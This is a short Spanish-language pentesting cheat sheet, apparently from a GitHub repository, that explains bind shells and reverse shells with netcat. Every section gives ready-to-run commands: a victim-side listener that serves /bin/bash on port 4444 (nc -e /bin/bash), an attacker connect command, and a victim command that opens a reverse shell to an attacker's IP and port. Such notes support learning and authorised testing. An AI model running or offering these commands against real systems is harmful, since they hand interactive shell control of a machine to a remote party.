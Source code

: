 ### Bind Shells
En un Bind Shell, el sistema  `objetivo`  tiene un oyente iniciado y espera una conexión desde el sistema de un pentester (caja de ataque).

#### Victim
```js
nc -lvnp 4444 -e /bin/bash
```
#### Attacker
```js
nc IP PORT
```


### Reverse Shells
En un `reverse shell`, el `HACKER` tendrá un oyente ejecutándose y `LA VICTIMA` deberá iniciar la conexión.
#### Attacker
```js
nc -lvnp 4444
```
#### Victim
```js
nc IP PORT -e /bin/bash
```
